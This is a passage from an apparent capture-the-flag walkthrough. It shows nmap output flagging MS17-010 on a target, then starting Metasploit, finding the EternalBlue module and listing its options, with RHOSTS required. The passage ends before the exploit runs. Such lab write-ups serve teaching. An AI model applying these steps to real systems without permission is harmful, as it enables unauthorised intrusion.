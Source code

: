 ```shell
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143  
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx  
|_smb-vuln-ms10-054: false  
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
```

```
MS17-010
```

---

## Task 2 - Gain Access

Exploit the machine and gain a foothold.

Start metasploit!
```shell
msfconsole
```

> Find the exploitation coded we will use. What is it's full path?

```
msf6 > search eternal blue
```

```
exploit/windows/smb/ms17_010_eternalblue
```

> Show options and set the one required value. What is the name of this value? (All caps for submission)

```
Module options (exploit/windows/smb/ms17_010_eternalblue):  
  
  Name           Current Setting  Required  Description  
  ----           ---------------  --------  -----------  
  RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit  
  RPORT          445              yes       The target port (TCP)  
  SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windo  
                                            ws Embedded Standard 7 target machines.  
  SMBPass                         no        (Optional) The password for the specified username  
  SMBUser                         no        (Optional) The username to authenticate as  
  VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows E  
                                            mbedded Standard 7 target machines.  
  VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded St  
                                            andard 7 target machines.
```
